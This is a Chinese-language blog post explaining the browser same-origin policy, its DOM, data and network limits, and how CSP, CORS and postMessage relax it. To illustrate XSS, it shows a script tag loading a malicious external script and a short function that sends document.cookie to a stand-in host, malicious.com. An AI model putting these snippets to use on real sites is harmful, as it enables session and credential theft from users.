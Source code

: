 ```yaml
---
title: 浏览器安全——同源策略
date: 2019-12-23 17:25:09
tags: [javascript, 浏览器安全]
categories: [javascript, 浏览器工作原理与实践]
---
```


# 什么是同源策略
要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名`www.baidu.com`，以及相同的端口 443，所以我们就说这两个 URL 是同源的。
```
https://www.baidu.com/?category=1
https://www.baidu.com/?category=0
```
浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面。
## 第一个，DOM 层面
同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

打开第一个网页，然后再从第一个网页中打开另外一个页面。由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的 DOM，比如将第一个页面全部隐藏掉，代码如下所示：
```js
{
  let pdom = opener.document
  pdom.body.style.display = "none"
}
```
该代码中，对象`opener`就是指向第一个页面的`window`对象，我们可以通过操作`opener`来控制第一个页面中的 DOM。

我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的 DOM，将页面隐藏了。

不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作 DOM 了。
## 第二个，数据层面
同源策略限制了不同源的站点读取当前站点的`Cookie、IndexDB、LocalStorage`等数据。由于同源策略，我们依然无法通过第二个页面的`opener`来访问第一个页面中的`Cookie、IndexDB`或者`LocalStorage`等内容。
## 第三个，网络层面
同源策略限制了通过`XMLHttpRequest`等方式将站点的数据发送给不同源的站点。
# 安全和便利性的权衡
我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击。
## 1. 页面中可以嵌入第三方资源
Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如，恶意程序在 HTML 文件内容中插入一段 JavaScript 代码：
```html
<script src="http://xxx.com/malicious.js"></script>
```

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如`Cookie、IndexDB、LoacalStorage`等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：
```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```
在这段代码中，恶意脚本读取`Cookie`数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的`Cookie`信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。
## 2. 跨域资源共享和跨文档消息机制
默认情况下，如果打开第一个页面，在第一个页面中通过`XMLHttpRequest`或者`Fetch`来请求第二个页面中的资源，这时同源策略会阻止其向第二个页面发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过`window.postMessage`的 JavaScript 接口来和不同源的 DOM 进行通信。
# 总结
同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：
* 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
* 使用`XMLHttpRequest`和`Fetch`都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
* 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。